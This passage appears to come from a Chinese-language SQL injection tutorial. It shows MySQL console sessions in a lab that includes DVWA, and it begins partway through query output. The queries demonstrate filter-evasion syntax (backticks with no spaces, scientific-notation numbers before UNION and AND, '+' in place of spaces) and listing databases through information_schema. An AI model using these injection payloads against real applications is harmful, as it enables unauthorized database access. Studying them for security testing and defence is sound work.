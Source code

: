```sql
|    1 | adam     |
|    1 | adam     |
|    1 | admin    |
|    1 | admin    |
|    1 | bob      |
|    1 | bob      |
+------+----------+
11 rows in set (0.00 sec)

mysql> select`id`,`username`from`tuser`where`id`=1e0union select+1,2;
+------+----------+
| id   | username |
+------+----------+
|    1 | admin    |
|    1 | adam     |
|    1 | bob      |
|    1 | NULL     |
|    1 | 0        |
|    1 |          |
|    1 |  dewe    |
|    1 |  3fd     |
|    1 | 2        |
+------+----------+
9 rows in set (0.00 sec)

mysql> select`id`,`username`from`tuser`where`id`=1e0and+1=1;
+------+----------+
| id   | username |
+------+----------+
|    1 | admin    |
|    1 | adam     |
|    1 | bob      |
|    1 | NULL     |
|    1 | admin    |
|    1 | adam     |
|    1 | bob      |
|    1 | 0        |
|    1 |          |
|    1 |  dewe    |
|    1 |  3fd     |
+------+----------+
11 rows in set (0.00 sec)
```

注意：跨库查询时，如果要使用反引号，库名和表名都要加反引号

```sql
mysql> select schema_name from `information_schema`.`schemata`;
+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| sys                |
| dvwa               |
| test               |
+--------------------+
6 rows in set (0.00 sec)

mysql> select schema_name from `information_schema.schemata`;
ERROR 1146 (42S02): Table 'test.information_schema.schemata' doesn't exist
```
